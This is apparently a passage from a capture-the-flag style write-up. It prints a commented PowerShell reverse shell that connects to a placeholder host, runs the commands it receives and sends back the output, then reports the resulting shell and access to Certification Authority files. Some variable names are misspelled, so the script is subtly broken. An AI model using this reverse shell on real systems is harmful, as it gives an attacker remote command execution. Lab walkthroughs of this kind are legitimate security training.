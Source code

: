 <br/><br/>
First save the reverse shell into the system 
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_15.png' | relative_url }})
<br/><br/>
Then execute it using powershell
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_16.png' | relative_url }})
<br/><br/>

```powershell
#Stablishin a connection
$TCPClient = New-Object Net.Sockets.TCPClient('x.x.x.x', pppp);
#Getting network workflow
$NetworkStram = $TCPClient.GetStream();
#Creates a writer to send information through the network flow
$StreamWriter = New-Object IO.StreamWriter($NetworStream);
#Function to write through the network flow (sending information)
function WriteToStream ($String) {
	#Inizializing a buffer of bytes
	[byte[]]
	$Script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};
	#Write informatio
	$StreamWriter.Write($String + 'SHELL> ');
	#Making sure the information is sent
	$StreamWriter.Flush()
}
#Calls the function
WriteToStream '';
#Receiving information, read throught the network flow
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0){
	#Read the information received in UTF8
	$Command = ([text.encoding]::UTF8).GetString($Buffer, 0. $BytesRead -1);
	$Output = try {
	#Try to execute commands and capture errors
		Invoke-Expression $Command 2>&1 | Out-String
	}catch{
	#If there is an error, takes the error and converting it to string
		$_ | Out-String
	}WriteToStream ($Output) #Write the output to send it 
}
$StreamWriter.Close()
```

<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_17.png' | relative_url }})
<br/><br/>
Now we have a shell as wao
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_18.png' | relative_url }})
<br/><br/>
Here we have sensible information and files of the Certification Authotiry
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_19.png' | relative_url }})
<br/><br/>
We also have some certificates
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_20.png' | relative_url }})
<br/><br/>
But at the moment to try to log in with them we have an error message
<br/><br/>